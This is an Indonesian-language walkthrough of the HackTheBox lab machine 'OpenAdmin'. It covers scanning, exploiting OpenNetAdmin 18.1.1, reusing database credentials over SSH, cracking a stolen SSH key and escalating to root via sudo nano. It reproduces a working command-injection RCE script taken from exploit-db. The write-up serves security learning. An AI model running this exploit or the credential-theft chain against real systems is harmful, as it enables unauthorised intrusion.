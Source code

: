 # OpenAdmin (Linux)

![Image](img/1.jpg)

Sebuah machine Linux, dengan IP 10.10.10.171, dilihat dari review peserta lain maka challenge ini akan banyak menggunakan CVE, Enumerasi dan mirip dengan CTF.

### Enumeration

Pertama mari kita lakukan nmap scan terlebih dahulu, didapatkan result seperti ini

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-05 00:23 EST
Nmap scan report for 10.10.10.171
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/5%OT=80%CT=1%CU=44689%PV=Y%DS=2%DC=T%G=Y%TM=5E11734E
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=B)SEQ(
OS:SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%TS=B)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
 
Network Distance: 2 hops
 
TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   281.12 ms 10.10.14.1
2   348.60 ms 10.10.10.171
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.01 seconds
```

### User

Bisa ditemukan sebuah website dan sebuah SSH service yang berjalan. Mari kita dirbuster website yang berjalan.

![Image](img/2.jpg)

Kita bisa menemukan sebuah directory yang bernama ona, mari kita buka

![Image](img/3.jpg)

Ditemukan sebuah web application, ternyata ona adalah singkatan dari OpenNetAdmin. Kebiasaan saya setelah menemukan sebuah web application maka saya akan mencari tentang vulnerabilitiesnya.

Kita mengetahui versi dari OpenNetAdmin yang digunakan, yaitu versi 18.1.1

Ternyata ada vulnerability RCE, penulis mengambil shell script dari exploitdb

```
#!/bin/bash
 
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Script ini akan menyedikan kita dengan low priviledge shell sebagai www-data

![Image](img/4.jpg)

Kita sudah masuk sebagai www-data, mari kita enumerasi untuk mendapatkan user dan root nya.

![Image](img/5.jpg)

Berikut daftar file dan directory yang bisa kita lihat di lokasi kita saat itu

![Image](img/6.jpg)

Dirlisting juga bisa digunakan pada website, jadi kita bisa lebih mudah melihat file file lain yang ada di directory. Karena kita tidak bisa cd kedalam directory yang kita ls tadi, sebab kita hitungannya masih RCE bukan Shell.

Pada config.inc.php penulis menemukan sebuah clue berupa

![Image](img/7.jpg)

Mari kita cek isi dari directory /local/config oh ternyata ada file bernama database_settings.inc.php, jika di cat kita akan mendapatkan credentials untuk database yang digunakan website ini.

![Image](img/8.jpg)

Karena tidak menemukan yang berguna lagi untuk dicari cari, maka penulis mencoba untuk berpikir kembali, dan ingat bahwa ada service SSH yang belum dicoba, maka mari kita mencoba menggunakan user tersebut ke SSH.

Gagal, namun penulis ternyata bisa mengecek existing user

![Image](img/9.jpg)

Ada user jimmy dan joanna, mari kita coba dengan username jimmy dan password dari config file tadi.

![Image](img/10.jpg)

Baik, kita sudah masuk sebagai jimmy namun user.txt tidak ada di home directory user jimmy. Kita harus masuk sebagai user joanna untuk cat user.txt

Pada file /var/www/internal saya menemukan main.php

![Image](img/11.jpg)

Bisa dilihat main.php ini akan melakukan cat terhadap id_rsa milik joanna, jika kita mendapatkannya maka kita juga akan bisa login sebagai joanna.

Bagaimana cara kita bisa menjalankan main.php ini? Pertama mari kita cek virtual host nya untuk mencari si “internal” ini

![Image](img/12.jpg)

Baiklah kita mendapatkan cara mengakses website internal, kita harus mengarahkan request ke localhost denan port 52846 dan langsung tembak ke main.php untuk mendapatkan id_rsa milik joanna

Mari kita coba menggunakan curl saja

![Image](img/13.jpg)

Wakwau kita mendapatkan id_rsa milik joanna, sekarang kita hanya perlu cracking passphrasenya agar kita bisa login sebagai joanna menggunakan id_rsa nya.

Penulis akan menggunakan john dan ssh2john.

![Image](img/14.jpg)

Kita mendapatkan passphrase dari id_rsa milik Joanna, lets login SSH

![Image](img/15.jpg)

### Root

Mari lanjutkan dengan enumerasi menggunakan LinEnum.sh

Perlu dilihat dari result LinEnum.sh ini adalah bagian ini

![Image](img/16.jpg)

Joanna bisa menjalankan nano /opt/priv dengan priviledge root, alias kita dikasi root cuma cuma.

Dengan referensi GTFOBins, kita bisa membuka terminal didalam nano

![Image](img/17.jpg)

# Rooted !
